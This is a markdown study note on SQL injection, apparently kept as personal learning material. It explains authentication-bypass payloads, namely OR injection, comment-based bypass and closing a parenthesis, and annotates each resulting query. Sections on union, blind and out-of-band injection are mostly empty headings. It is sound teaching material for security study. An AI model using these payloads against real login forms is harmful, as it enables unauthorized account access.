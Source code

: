 # SQL Injection
### Summary
Injection occurs user-input is put into the SQL query string without properly sanitizing or filtering the input
## Common
## Authentication Bypass
For Auth bypass, the query always needs to return true
```sql
# Basic Admin Panel Query String
SELECT * FROM logins WHERE username = 'admin' AND password = 'p@ssw0rd';
# This statement returns True based on the "AND" Statement if both the username and password match the same entry in sql,
# and thus allows the login
```
### OR Injection ([Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass))
```sql
# Injected Code
admin' or '1'='1
# Final Query
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password = 'something';

# Easy way to understand this, AND is evaluated first and will return false, assuming 'something' isn't the password
# When the OR is evaluated, 1=1 is always true, so that will return true, and because it's an "OR" statement, the
# whole statement will return true. 
# NOTE: This will only work with a valid username
```
```sql
# No known username (We need to have an overall true query)
SELECT * FROM logins WHERE username='notAdmin' OR '1'='1' AND password = 'something' OR '1'='1';

# The additional OR statement makes the password field evaluate as true, because 1=1 is always true.
```
Using Comments
3 types of comments ```--```,```#``` and inline comments ```/**/```(Inline comments are not frequently used in injection)
```sql
# Example "-- "
SELECT username FROM logins; -- Selects usernames from the logins table

# NOTE: 2 dashes are not enough to start a comment. There has to be space at the end. The empty space cannot be passed in a
# URL. Use (+) to url encode an empty space
```
```sql
# Example "#"
SELECT username FROM logins; # Selects usernames from the logins table
# Note: # will not be passed in a URL. It has to be URL encoded as '%23'
```
```sql
# Using comment for auth bypass
# Injected Code "admin'-- " as the username
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
# Everything after the '-- ' is commented out, and as long as the username match's in SQL, the query will return true
```
### Paranthetical evaulations  
Evals in Parantheses are always evaluated first  
Let's take the following:
```sql
SELECT * FROM logins WHERE (username='admin' and id>1)AND password = 'hashed password';
```
The query above ensures that the users ID is always greater than 1.  
Logging in with 'Admin' and the correct password will still fail if the admin has an id = 1  
Logging in with user 'Tom' and toms correct password will result in a successful login  
Attempting to just comment out the rest of the query will result in a syntax error.  
```sql
SELECT * FROM logins WHERE (username='admin'-- ' and ID>1) AND password = 'hashed password';
# This results in a syntax error because you didn't close out the paranthesis
```
The solution is to adjust your syntax to close out the parenthesis  
Injected Code: admin')-- 
```sql
# Resulting query
SELECT * FROM logins WHERE (username='admin')-- ' AND id > 1) AND password = 'hashed password';
# As you can see, we properly closed the parenthesis, and commented out the rest of the query, thus returning true
```
## In-Band
### Summary
Output of both the intended and new query are output directly to the screen and can be directly read.
### Union Based
### Error Based
## Blind
### Summary
Output may not printed, so we'll have to use SQL logic to get the output character by character
### Boolean Based
### Time Based
## Out-of-band
### Summary
No direct access to the output, so we have to direct the output to a remote location, like a DNS record, and retrieve it from there.
